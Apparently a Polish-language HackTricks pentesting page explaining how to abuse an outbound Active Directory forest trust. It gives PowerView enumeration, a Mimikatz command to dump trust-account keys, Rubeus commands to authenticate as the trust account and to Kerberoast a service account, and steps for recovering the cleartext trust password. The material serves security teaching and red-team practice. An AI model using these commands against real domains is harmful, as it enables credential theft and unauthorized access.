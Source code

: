 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

W tym scenariuszu **twoja domena** **ufa** pewnym **uprawnieniom** dla podmiotu z **innych domen**.

## Enumeracja

### Zaufanie wychodzące
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Występuje luka w zabezpieczeniach, gdy nawiązywana jest relacja zaufania między dwoma domenami, określonymi tutaj jako domena **A** i domena **B**, gdzie domena **B** rozszerza swoje zaufanie do domeny **A**. W tej konfiguracji w domenie **A** tworzony jest specjalny konto dla domeny **B**, które odgrywa kluczową rolę w procesie uwierzytelniania między tymi dwiema domenami. To konto, powiązane z domeną **B**, jest wykorzystywane do szyfrowania biletów do uzyskiwania dostępu do usług w różnych domenach.

Kluczowym aspektem do zrozumienia jest to, że hasło i hash tego specjalnego konta mogą być wyodrębnione z kontrolera domeny w domenie **A** za pomocą narzędzia wiersza poleceń. Polecenie do wykonania tej akcji to:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
To ekstrakcji jest możliwa, ponieważ konto, identyfikowane znakiem **$** po swojej nazwie, jest aktywne i należy do grupy "Użytkownicy domeny" w domenie **A**, dziedzicząc tym samym uprawnienia związane z tą grupą. Umożliwia to osobom uwierzytelnienie się w domenie **A** przy użyciu poświadczeń tego konta.

**Ostrzeżenie:** Możliwe jest wykorzystanie tej sytuacji do uzyskania dostępu do domeny **A** jako użytkownik, chociaż z ograniczonymi uprawnieniami. Niemniej jednak, ten dostęp jest wystarczający do przeprowadzenia enumeracji w domenie **A**.

W scenariuszu, w którym `ext.local` jest domeną ufającą, a `root.local` jest domeną zaufaną, konto użytkownika o nazwie `EXT$` zostałoby utworzone w `root.local`. Przy użyciu określonych narzędzi możliwe jest zrzucenie kluczy zaufania Kerberos, ujawniając poświadczenia `EXT$` w `root.local`. Polecenie do osiągnięcia tego to:
```bash
lsadump::trust /patch
```
Następnie można użyć wyodrębnionego klucza RC4 do uwierzytelnienia jako `root.local\EXT$` w `root.local` za pomocą innej komendy narzędzia:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Ten krok uwierzytelniania otwiera możliwość enumeracji, a nawet wykorzystania usług w `root.local`, takich jak przeprowadzenie ataku Kerberoast w celu wyodrębnienia poświadczeń konta usługi za pomocą:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Zbieranie hasła zaufania w postaci jawnej

W poprzednim przepływie użyto hasha zaufania zamiast **hasła w postaci jawnej** (które również zostało **zrzucane przez mimikatz**).

Hasło w postaci jawnej można uzyskać, konwertując wyjście \[ CLEAR \] z mimikatz z formatu szesnastkowego i usuwając bajty zerowe ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Czasami podczas tworzenia relacji zaufania użytkownik musi wpisać hasło dla zaufania. W tej demonstracji klucz to oryginalne hasło zaufania i dlatego jest czytelne dla człowieka. Ponieważ klucz cyklicznie się zmienia (co 30 dni), hasło w postaci jawnej nie będzie czytelne dla człowieka, ale technicznie nadal będzie użyteczne.

Hasło w postaci jawnej można wykorzystać do przeprowadzenia regularnej autoryzacji jako konto zaufania, co stanowi alternatywę dla żądania TGT przy użyciu tajnego klucza Kerberos konta zaufania. Tutaj zapytanie do root.local z ext.local o członków Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Odniesienia

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
